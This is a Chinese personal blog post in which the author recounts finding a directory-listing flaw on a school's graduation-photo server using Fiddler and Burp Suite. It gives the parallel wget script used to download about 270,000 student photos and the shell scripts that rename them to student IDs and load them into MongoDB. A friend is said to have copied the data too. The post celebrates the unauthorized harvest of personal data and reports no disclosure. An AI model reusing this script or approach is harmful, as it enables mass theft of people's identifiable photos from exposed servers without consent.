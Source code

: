 ```yaml
---
layout: post
title: 小小爬虫学习中(三)
categories: 一个小学生
kerywords: Spider Web Crawler
tags: 爬虫与反爬虫 旧文迁移
---
```


这篇文章应该是几个星期前就该记录下来的。当成故事来看，未尝不可，但是真的好爽啊

事情的起因很简单，就是上周上周上周的上周要进行全校本届毕业生彩像，然后过了大概一周，突然通知说让我们关注一个公众号，输入一串数字+学号+xl去验证是不是自己的照片。然后故事开始了。还有由于是几周之前的事情了，所以就不能在重现截图了。


手机wifi连接到我的笔记本，笔记本fiddler开代理。这样所有数据流向将十分清楚。所以很方便的找到了目的ip。然后burp suit拿出来，看看什么什么的，随便猜了下目录，竟然成了。服务器有目录遍历的漏洞，于是就直接写个小脚本wget去了，其实这样的话，并不是太完美，

```bash
#!/bin/bash
cat schoolname | while read line
do
	for ((i=0;i<8;i++));
	do
	{
		sleep 2;			
		wget -r -c -np -L http://xxxxip/wwtstudentcard/Web/public/appupload/$line/
	}&
	done	 
done 
```

就这样，扔服务器后台跑了一夜(谁让宿舍断网的，大爷的)，12G数据到手，总共27万张左右的图片（筛选之后乱七八糟的文件之后）。上面一个准确讲没什么技术含量，如果思路加小技巧算的话。

拿到数据，有点多，但是有的目录是空的，有的还有html后缀的文件，还有的是学校的校徽，但是校徽的图片命名很规律，xiaohui.png .于是最后花了两天把所有空白文件删除，各种无关文件删除，并重命名图片文件名为学校代码+学号，并把大图和小图分别打包压缩，放到不同的文件夹中。当时发现一个很重要的事，就是一定要判断是不是文件，当时判断的时候默认是进入每个文件夹操作，结果有一个是文件，cd不了，肯定有错误，虽然是循环来处理，这个错误即使出现也不影响后面的操作，但还是值得注意，绝对。毕竟设计的脚本思路是进入文件夹，那么就应该判断是不是文件夹（只怪当时清理文件忘了清理校徽文件）。

```bash
cat hhhh | while read line
do
	cd $line
	ls | while read dirtype
	do
		#cd $dirtype
		#echo "Now I'm in:"  >> ../log
		#echo pwd  	    >> ../log
		cd $dirtype
		
		for fn in *.jpg
		do
			mv $fn $(pwd | grep -E "[0-9]" | awk -F "/" '{print $4}'
)$fn
		done
		cd ..
		#tar -cvzf $line.tar.gz $line
		#cd ..
	done
	
	#echo "Job Done "    >> log
	cd ..
done
```


```bash
$ find -type d -empty	#找出所有的空文件夹
$ find $PWD #得到的是绝对路径 $pwd（小写的得到相对路径）
```

当时移除所有数据之后，准备

```bash
ls -aR | sed "s:^:`pwd`/:" > listto_mongo
cat listto_mongo | grep -v ".jpg" > temp
cat temp | while read line
do
	sed 's/$line//' listto_mongo

done
```

![tupian1](https://img.iami.xyz/images/crawl/allimg.png)
这是最后清洗完成后的数据，
最开始是这个样子的：
![tupian2](https://img.iami.xyz/images/crawl/wenjianjia.png)
后来处理并整理，可以从下面看出来虽然没考虑xiaohui.png这个问题，虽然有错误，但是但是竟然把xiaohui.png也打包了。
![tupian3](https://img.iami.xyz/images/crawl/22222.png)

![tupian4](https://img.iami.xyz/images/crawl/normalimg.png)
最后这个是准备重命名，并得到所有的绝对路径之后，导入到mongo中去，但是现在我觉得这不是一个好主意，虽然GridFs设计的就是为这种不大不小的文件而生，而且放入数据库便于携带，但是还是不得不说，速度并不快。
![tupian5](https://img.iami.xyz/images/crawl/rename.png)
一开始是打算用python+pymongo获取所有的文件并插入进去，但是后来发现mongofiles -d images put xxxx.png就可以实现，这样的话一个几行的shell就能搞定了，直接读取所有保存文件路径名的文本，多个线程插入即可。但是其实这也不好。因为我的照片即使是大的也没有256k,那么就不会把一个照片分块存储，而且每次存取将十分麻烦。虽然mongo可以访问远程mongo服务器，但总的来讲，对我并不是一个好主意。但是出于各种原因还是存了(哭笑不得)。
顺便，和好朋友一起，告诉他这个东西之后，他也在他的服务器上抓了所有的，而且直接保存到sqlite了，虽然我觉的这种东西都不应该放到数据库，但是一切为了备份～_～


最后作为一个小菜鸟，路还很长，这是我习惯说的一句话，虽然有点啰嗦。还有一些小脚本，去服务器看时，发现已经没了，所以贴不来了。













